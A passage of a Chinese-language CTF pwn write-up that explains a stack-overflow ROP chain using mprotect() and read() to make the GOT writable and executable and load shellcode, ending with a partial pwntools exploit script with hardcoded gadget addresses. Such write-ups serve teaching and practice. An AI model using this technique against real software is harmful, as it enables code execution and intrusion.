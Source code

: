 > <img src="./img0/32.png">

现在来寻找可用的写入地址

> <img src="./img0/33.png">

可以看到`got`表是一个不错的写入地址，因此我们的攻击思路就是通过栈溢出将程序跳转到`mprotect()`，然后通过`mprotect()`修改`got`表的权限，然后跳转到`read()`，使用`read()`向`got`表写入`shellcode`，最后跳转到`got`表以达到攻击目的

在攻击之前，我们需要考虑栈上发生的变化，首先是栈溢出56字节，接4字节`prev ebp`，然后是`mprotect_addr`

`mprotect_addr`的返回地址本应是`read_addr`，但是由于`mprotect()`拥有三个参数，需要在跳转`read()`之前将这三个参数弹出栈顶，以避免程序将`mprotect`的参数作为返回地址解析，因此我们还需要寻找三个`pop`

> <img src="./img0/34.png">

如图，我们找到了一个`pop ebx; pop esi; pop edi; ret`，作为`mprotect()`的返回地址，后接三个参数`got_addr`、`0x1000`和`0x7`，然后便是`read_addr`，这里三个`pop`尽量不要选择如`pop ebp`、`pop esp`等会对栈造成影响的`gadget`

`read()`本身也有三个参数`fd`、`buf`和`len`，因此`read_addr`后接三个`pop`，然后接`read()`的三个参数`0`、`got_addr`和`0x100`，最后接`read()`的返回地址`got_addr`

**exp**

```py
from pwn import *

sh = process('./pwn0')
# sh = remote('node5.buuoj.cn', 29626)

mprotect = 0x0806EC80
pop_ret = 0x080509A5
got_addr = 0x080EB000
read_addr = 0x0806E140
# 注意这一题的main()函数栈帧中没有prev ebp，溢出长度不需要+4
payload = flat([cyclic(56), mprotect, pop_ret, got_addr, 0x1000, 0x7, read_addr, pop_ret, 0, got_addr, 0x100, got_addr])
```